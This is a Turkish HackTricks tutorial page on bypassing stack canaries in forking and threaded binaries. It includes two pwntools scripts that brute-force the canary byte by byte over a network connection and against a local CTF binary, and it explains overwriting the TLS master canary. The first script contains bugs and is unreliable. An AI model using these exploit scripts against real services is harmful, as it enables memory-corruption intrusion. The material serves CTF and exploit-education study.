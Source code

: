 # BF Forked & Threaded Stack Canaries

{% hint style="success" %}
AWS Hacking öğrenin ve uygulayın: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

**Bir canary ve PIE (Pozisyon Bağımsız Yürütülebilir) ile korunan bir ikiliyle karşı karşıyaysanız, muhtemelen bunları atlatmanın bir yolunu bulmanız gerekecektir.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
**`checksec`**'in, bir ikilinin bir canary ile korunduğunu bulamayabileceğini unutmayın, bu durum statik olarak derlenmişse ve işlevi tanımlayamıyorsa.\
Ancak, bir değerin bir işlev çağrısının başında yığına kaydedildiğini ve bu değerin çıkış yapmadan önce kontrol edildiğini fark ederseniz, bunu manuel olarak fark edebilirsiniz.
{% endhint %}

## Brute force Canary

Basit bir canary'yi atlatmanın en iyi yolu, ikilinin bir program olduğu durumdur **her yeni bağlantı kurduğunuzda çocuk işlemleri çatallandırır** (ağ hizmeti), çünkü her bağlandığınızda **aynı canary kullanılacaktır**.

Bu durumda, canary'yi atlatmanın en iyi yolu, canary'yi **her karakteri karakter karakterine zorlamaktır**, ve tahmin edilen canary baytının doğru olup olmadığını anlayabilir ve programın çöktüğünü veya düzenli akışını sürdürdüğünü kontrol ederek. Bu örnekte fonksiyon **8 Bayt canary (x64)**'yi zorlar ve doğru tahmin edilen baytı yanlış bayttan ayırt eder **sunucu tarafından bir yanıt gönderilip gönderilmediğini kontrol ederek** (diğer durumlarda başka bir yol, bir **try/except** kullanmak olabilir):

### Örnek 1

Bu örnek 64 bit için uygulanmıştır ancak 32 bit için kolayca uygulanabilir.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Örnek 2

Bu 32 bit için uygulanmıştır, ancak kolayca 64 bit'e değiştirilebilir.\
Ayrıca bu örnekte **programın önce girişin boyutunu belirten bir baytı ve ardından yükü beklediğine dikkat edin**.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## İş Parçacıkları

Aynı işlemdeki iş parçacıkları aynı **canary belirteci**ni de **paylaşacaklarından**, bu nedenle bir saldırı gerçekleştiğinde ikili her seferinde yeni bir iş parçacığı oluşturan bir ikili varsa bir canary'yi **kaba kuvvet** yöntemiyle bulmak mümkün olacaktır.&#x20;

Ayrıca, bir canary ile korunan bir iş parçacığında bir tampon **taşması, TLS'de depolanan ana canary'yi değiştirmek için kullanılabilir**. Bu, bir iş parçacığının yığınındaki bir **taşma aracılığıyla TLS'nin depolandığı bellek konumuna ulaşmak mümkün olabileceği için mümkündür.\
Sonuç olarak, önlem işe yaramaz çünkü kontrol, iki aynı olan (ancak değiştirilmiş) iki canary ile yapılır.\
Bu saldırı, şu yazıda gerçekleştirilir: [http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads](http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads)

Ayrıca, genellikle **TLS**'nin **`mmap`** tarafından depolandığını ve bir **iş parçacığının yığınının** oluşturulduğunda da buna göre `mmap` tarafından oluşturulduğunu belirten [https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015](https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015) sunumuna da bakın, bu da önceki yazıda gösterildiği gibi taşmaya izin verebilir.

## Diğer örnekler ve referanslar

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 bit, PIE olmadan, nx, BF canary, bazı belleğe `execve`'yi çağırmak için bir ROP yaz ve oraya atla.

